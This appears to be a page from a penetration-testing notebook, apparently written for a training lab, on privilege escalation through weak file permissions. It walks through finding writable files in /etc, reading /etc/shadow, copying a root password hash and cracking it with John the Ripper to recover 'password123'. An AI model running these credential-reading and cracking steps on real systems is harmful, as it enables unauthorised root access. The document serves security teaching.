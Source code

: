 # Weak File Permissions

#### Investigate if you have any writable files that can be abused&#x20;

```bash
find /etc -maxdepth 1 -writable -type f
```

![](<../../.gitbook/assets/image (98).png>)

#### Check if you can read it.&#x20;

```bash
cat /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

Copy and paste the line of the root, and save it as hash.txt.

```
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
```

Crack the hash.

{% code overflow="wrap" %}
```bash
john --format=sha512crypt --wordlist=/root/wd/rockyou.txt hash.txt

#Using default input encoding: UTF-8
#Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
#Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
#1g 0:00:00:03 DONE (2020-05-25 21:42) 0.3215g/s 452.7p/s 452.7c/s 452.7C/s teacher..tagged
#Use the "--show" option to display all of the cracked passwords reliably
#Session completed
```
{% endcode %}
